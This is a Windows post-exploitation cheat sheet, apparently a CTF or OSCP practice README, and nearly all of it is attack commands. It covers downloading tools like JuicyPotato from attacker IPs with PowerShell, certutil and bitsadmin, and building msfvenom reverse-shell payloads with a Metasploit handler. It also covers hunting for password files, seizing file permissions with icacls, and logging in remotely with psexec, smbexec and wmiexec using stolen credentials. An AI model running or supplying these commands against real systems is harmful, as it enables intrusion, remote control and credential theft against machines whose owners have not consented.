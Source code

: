 # Downloading Files
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.41:8000/JuicyPotato.exe','C:/Users/kohsuke/Desktop/JuicyPotato.exe')"

powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c '(Invoke-RestMethod -Uri "http://10.10.14.3:8000/JuicyPotato.exe" -Method Get -OutFile "jp.exe")'

powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.14:7898/file.exe' -OutFile 'file.exe'"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $stream = [System.IO.StreamReader]::new($url); $content = $stream.ReadToEnd(); Set-Content -Path 'file.exe' -Value $content -Encoding Byte"

powershell -c "$client = New-Object Net.WebClient; $client.DownloadFile('http://10.10.10.14:7898/file.exe', 'file.exe')"

powershell -c "$url = 'http://10.10.10.14:7898/file.exe'; $request = [System.Net.HttpWebRequest]::Create($url); $response = $request.GetResponse(); $stream = $response.GetResponseStream(); $output = [System.IO.File]::Create('file.exe'); $stream.CopyTo($output); $output.Close(); $response.Close()"

certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe

bitsadmin /transfer myDownload /priority normal http://10.10.14.3:8000/JuicyPotato.exe jp.exe

nc

curl

wget

scp


```

# Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

```
# Manual Windows Reverse Shell
```
python3 -m http.server

#to get reverse shell from your kali
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4567 

cd C:\Windows\Temp
certutil -urlcache -f http://YOUR_IP:PORT/filename.exe renamed.exe
```
# Metasploit Windows suggester
```
background

use post/multi/recon/local_exploit_suggester

run SESSION=1
```


# Windows System Enumeration 
```
systeminfo

#32bit ? 64bit ? 68bit ?
wmic os get osarchitecture

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service

#Check FireWall Status
netsh advfirewall firewall dump
netsh firewall show state 

#Check FireWall configuration
netsh firewall show config
```

# Read Permissions
```
#possible if user is also admin
icacls C:\Users\Administrator\Desktop\root.txt /grant username:F

icacls C:\Windows\System32\net.exe /grant username:username:F

"F" for Full control, "M" for Modify, "R" for Read, "W" for Write, "X" for Execute

```
# Finding exe files
```
where /R c:\windows bash.exe
where /R c:\windows wsl.exe
```

# Login methods
```
 psexec.py administrator:'password'@MACHINE_IP
 
 smbexec.py administrator:'password'@MACHINE_IP
 
 wmiexec.py administrator:'password'@MACHINE_IP
```

# References

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

https://github.com/SecWiki/windows-kernel-exploits

